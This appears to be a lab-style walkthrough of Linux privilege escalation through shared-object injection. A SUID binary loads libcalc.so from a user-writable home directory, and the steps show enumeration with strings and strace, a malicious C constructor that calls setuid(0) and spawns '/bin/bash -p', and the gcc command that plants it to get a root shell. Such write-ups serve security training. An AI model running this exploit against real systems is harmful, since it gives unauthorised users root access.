






1.  Since we are not familiar with this binary, the very first thing we should do is interact with it to see what it does.  
    `/usr/local/bin/suid-so` 

    
    
2.  we can use the strings command to see if there are any binaries or shared libraries being loaded during execution.  
    `strings /usr/local/bin/suid-so`

     
    
    
3.  let’s take a closer look at what the binary is doing at runtime by debugging it,we are most interested in seeing what gets loaded when the program runs, which is why we will use strace for our debugging.  
    `strace /path/to/suid-binary 2>&1 | grep -iE "open|access|no such file"`  

    

    **NOTE:** most important is finding a shared object that executes from a directory where we have write permissions.
    
4.  it appears that a shared object is loaded during execution from user home directory we have write permissions to home directory, we should be able to replace libcalc.so with something malicious.  
    `ls -la /home/user/.config/`  
    
    
    
5.  Similar to when we used the strings command, we have discovered the libcalc.so file that executes from user home directory, This also confirms that the shared object is being loaded during execution, which means it is exploitable.
    
6.  we will create a malicious C program and then compile it into a shared object file.
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    
    static void inject() __attribute__((constructor));
    
    void inject() {
        setuid(0);
        system("/bin/bash -p");
    }
    ```
    
7.  we need to compile the C program into a shared object file and place it in the expected path of the missing library  
    `gcc -shared -fPIC -o /expected/path/malicious.so /path/to/malicious.c`  
    
    
    
8.  All we need to do now is run the suid-so binary. Once executed, it will load the lcalc shared library. When it does, it will execute our malicious version of libcalc.so and drop us directly into a root shell.  
    `/path/to/suid-binary`  
    
    